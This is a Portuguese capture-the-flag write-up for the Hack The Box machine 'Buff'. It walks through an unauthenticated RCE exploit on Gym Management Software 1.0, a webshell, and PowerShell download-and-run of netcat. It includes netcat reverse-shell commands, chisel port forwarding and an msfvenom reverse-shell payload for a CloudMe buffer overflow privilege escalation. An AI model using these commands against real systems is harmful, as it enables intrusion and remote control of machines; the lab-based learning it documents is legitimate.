 
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Buff - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Image](https://i.imgur.com/R54hsZz.png)

**Tools** utilizadas
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap
Python
Powershell
Netcat
msfvenom
chisel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos iniciar fazendo um scan com o Nmap procurando portas e serviços ativos:

Ao acessar o serviço Web, podemos encontrar a versão do CMS utilizado no site:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://10.10.10.198:8080/contact.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/DiDlRxp.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Gym Management Software 1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após encontrarmos a versão do CMS, podemos buscar por falhas já conhecidas sobre ele.

No site [Exploit-DB](https://www.exploit-db.com/) encontramos alguns exploits e um deles nos parece muito interessante;
![Image](https://i.imgur.com/lsXr8UN.png)

O [exploit](https://www.exploit-db.com/exploits/48506), consegue executar comandos de forma remota e sem autenticação!

Bom, vamos testa-lo!

![Image](https://i.imgur.com/APlOWvl.png)

Podemos ver que o exploit funcionou e realizou o upload de uma webshell. XD

Nossa webshell foi inserida no caminho:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://10.10.10.198:8080/upload/kamehameha.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Se quisermos utilizar o navegador para realizar comandos utilizamos o parametro 'telepathy' para passar nossos comandos:
Ex:

![Image](https://i.imgur.com/sfh8O6T.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos usar a shell em nosso terminal. Após conseguirmos executar comandos, vamos tentar realizar a conexão reversa.
Subiremos um servidor com python em nossa máquina para enviarmos o netcat para nosso alvo:

![Image](https://i.imgur.com/A76DKtv.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -m SimpleHTTPServer 80
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Vamos tentar jogar o netcat dentro da máquina alvo, através de nossa shell inicial.

Vamos usar o PowerShell para isso
![Image](https://i.imgur.com/o8Mxo8K.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell Invoke-WebRequest -Uri 'http://10.10.14.146/nc.exe'-OutFile 'C:\xampp\htdocs\gym\upload\nc.exe'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Após realizarmos o upload, vamos fazer a conexão com nossa máquina através do netcat.
![Image](https://i.imgur.com/eAPcQcR.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\nc.exe 10.10.14.146 433 -e powershell.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Em nossa máquina, abrimos a porta 443 para o netcat se conectar:

![Image](https://i.imgur.com/21enBIH.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vnlp 443
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao ganhar o acesso inicial e realizarmos a enumeração do que está rodando na máquina, podemos encontrar um software chamado CloudMe 1.11.2

![Image](https://i.imgur.com/AJwypaK.png)

Vamos fazer como fizemos no outro software, vamos buscar por falhas conhecidas:
![Image](https://i.imgur.com/c3I6v0R.png)


Ao pesquisar mais a fundo sobre esse software, é possível encontrar um [exploit](https://www.exploit-db.com/exploits/48389) que utiliza Buffer Overflow na versão 1.11.2 para escalção de privilégios.

Ao analisar o CloudMe, podemos ver que ele está rodando somente local...
Nosso alvo não possuí python para conseguirmos executar o exploit...
Vamos tentar um portforward para executar o exploit.

Para isso vamos tentar utilizar o chisel.exe para isso:

Vamos envia-lo para a máquina:
![Image](https://i.imgur.com/LTIYDYM.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell Invoke-WebRequest -Uri 'http://10.10.14.145/windao.exe'-OutFile 'C:\xampp\htdocs\gym\upload\windao.exe'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

_Salvei com esse nome pra evitar outras pessoas usando o mesmo arquivo(RIP vip)_
![Image](https://i.imgur.com/LoeaAmJ.png)


Vamos editar o payload do exploit para conectar-se a nossa máquina:
Usando o msfvenom criamos um payload:

![Image](https://i.imgur.com/fabuhuw.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/exec CMD='c:\xampp\htdocs\gym\upload\nc.exe 10.10.14.145 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python -v payload
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso inserimos ele dentro de nosso exploit(48389.py).

![Image](https://i.imgur.com/mRyjpnO.png)

Ativando o Chisel como server:

![Image](https://i.imgur.com/a37b5Y2.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
./chisel server --reverse --port 10001
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Usando o Chisel como client:

![Image](https://i.imgur.com/LuzPSpK.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\chisel.exe client 10.10.14.145:10001 R:3306:localhost:3306 R:8888:localhost:8888
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após a conexão ser concluida no Chisel, podemos executar o exploit já editado com o nosso payload, que realiza uma conexão na porta 4444, portanto, abrimos a porta com o netcat e aguardamos a conexão. Obs: tive que executar o exploit mais de uma vez para receber a conexão.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvnlp 4444
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
agora somos admin/root XD

![Image](https://i.imgur.com/ynbFR0B.png)


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


My references:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://github.com/jpillora/chisel
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html
https://ippsec.rocks/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
